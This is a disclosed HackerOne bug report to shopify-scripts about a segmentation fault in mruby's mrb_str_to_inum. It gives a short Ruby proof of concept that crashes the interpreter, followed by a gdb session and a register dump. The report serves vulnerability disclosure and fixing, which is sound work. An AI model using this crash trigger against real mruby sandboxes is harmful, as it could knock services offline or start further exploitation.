# SIGSEGV in mrb_str_inum

## Report Details
- **Report ID**: 217083
- **URL**: https://hackerone.com/reports/217083
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-29T19:49:09.398Z
- **Disclosed**: 2017-05-13T21:28:10.067Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as test_mrb_str_inum.rb):

	def method_missing(*)false
	end
	def to_str()""end
	Integer(ÿ,2).h

Debug - mirb
-------------------

	x@x:~/Desktop/test/mruby/bin$ gdb -q ./mirb
	r Reading symbols from ./mirb...idone.
	(gdb) r test_mrb_str_inum.rb 
	Starting program: /home/x/Desktop/test/mruby/bin/mirb test_mrb_str_inum.rb
	mirb - Embeddable Interactive Ruby Shell

	 => :method_missing
	 => :to_str

	Program received signal SIGSEGV, Segmentation fault.
	0x000000000041f81a in mrb_str_to_inum (mrb=0x6b0010, str=..., base=2, badcheck=1 '\001') at /home/x/Desktop/test/mruby/src/string.c:2253
	2253	  len = RSTRING_LEN(str);
	(gdb) info reg
	rax            0x1	1
	rbx            0x6c3100	7090432
	rcx            0x7	7
	rdx            0x10	16
	rsi            0x6b01c0	7012800
	rdi            0x6b0010	7012368
	rbp            0x7fffffffc2c0	0x7fffffffc2c0
	rsp            0x7fffffffc290	0x7fffffffc290
	r8             0x2	2
	r9             0x0	0
	r10            0x0	0
	r11            0x7ffff7895770	140737346361200
	r12            0x401ca0	4201632
	r13            0x7fffffffdf30	140737488346928
	r14            0x0	0
	r15            0x0	0